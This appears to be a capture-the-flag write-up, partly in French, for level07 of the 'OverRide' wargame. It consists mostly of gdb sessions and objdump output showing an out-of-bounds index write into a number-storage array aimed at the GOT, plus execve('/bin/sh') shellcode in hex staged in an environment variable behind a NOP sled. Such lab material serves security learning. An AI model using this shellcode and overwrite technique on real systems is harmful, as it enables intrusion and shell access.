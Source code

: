 <pre>
level07@OverRide:~$ gdb ./level07 

(gdb) b \*0x080486cb
Breakpoint 1 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
\----------------------------------------------------
  Welcome to wil's crappy number storage service!   
\----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
\----------------------------------------------------
   wil has reserved some storage :>                 
\----------------------------------------------------

Input command: store 
 Number: 999
 Index: 1

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0xffffd458:     0x00000000
</pre>

<pre>
objdump -R ./level07 

./level07:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R\_386\_GLOB\_DAT    \_\_gmon\_start\_\_
0804a040 R\_386\_COPY        stdin@@GLIBC\_2.0
0804a060 R\_386\_COPY        stdout@@GLIBC\_2.0
0804a000 R\_386\_JUMP\_SLOT   printf@GLIBC\_2.0
0804a004 R\_386\_JUMP\_SLOT   fflush@GLIBC\_2.0
0804a008 R\_386\_JUMP\_SLOT   getchar@GLIBC\_2.0
0804a00c R\_386\_JUMP\_SLOT   fgets@GLIBC\_2.0
0804a010 R\_386\_JUMP\_SLOT   \_\_stack\_chk\_fail@GLIBC\_2.4
0804a014 R\_386\_JUMP\_SLOT   puts@GLIBC\_2.0
0804a018 R\_386\_JUMP\_SLOT   \_\_gmon\_start\_\_
0804a01c R\_386\_JUMP\_SLOT   \_\_libc\_start\_main@GLIBC\_2.0
0804a020 R\_386\_JUMP\_SLOT   memset@GLIBC\_2.0
0804a024 R\_386\_JUMP\_SLOT   \_\_isoc99\_scanf@GLIBC\_2.7
</pre>

<pre>
(gdb) r
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 123
 Index: -1040108819

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0x804a008 <getchar@got.plt>:    0xf7e94840
</pre>

<pre>
level07@OverRide:~$ env -i SC=$(python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash gdb ./level07 

(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) x/10s \*\*(char\*\*\*)&environ
0xffffdf7e:      "SHELL=/bin/bash"
0xffffdf8e:      "COLUMNS=120"
0xffffdf9a:      "PWD=/home/users/level07"
0xffffdfb2:      "LINES=49"
0xffffdfbb:      "SC=1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
0xffffdfd4:      "SHLVL=0"
0xffffdfdc:      "/home/users/level07/level07"
0xffffdff8:      ""
0xffffdff9:      ""
0xffffdffa:      ""
(gdb) x 0xffffdfbb + 3
0xffffdfbe:      "1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
</pre>

```
env -i SC=$(python -c "print('\x90' * 20  + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash
```

- Se qui est dans l'environnement et dans les arguments est supprimé

<pre>
(gdb) b *0x08048887
Breakpoint 1 at 0x8048887
(gdb) b *0x80486cb
Breakpoint 2 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048887 in main ()
(gdb) x $eax
0xffffd5e8:     0x726f7473  # retou de fgets
(gdb) c
Continuing.
 Number: 123
 Index: 1

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd458:     0x00000000 # index 1 du tableau

Input command: store
 Number: 1
 Index: -2

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd44c:     0xffffd6b8 # index -2 du tableau
</pre>

- 0xffffd5e8 - 0xffffd458 = 0x190 = 400
- ffffd5e8 - ffffd44c = 19c = 412
- ffffd608 - 19c = ffffd46c
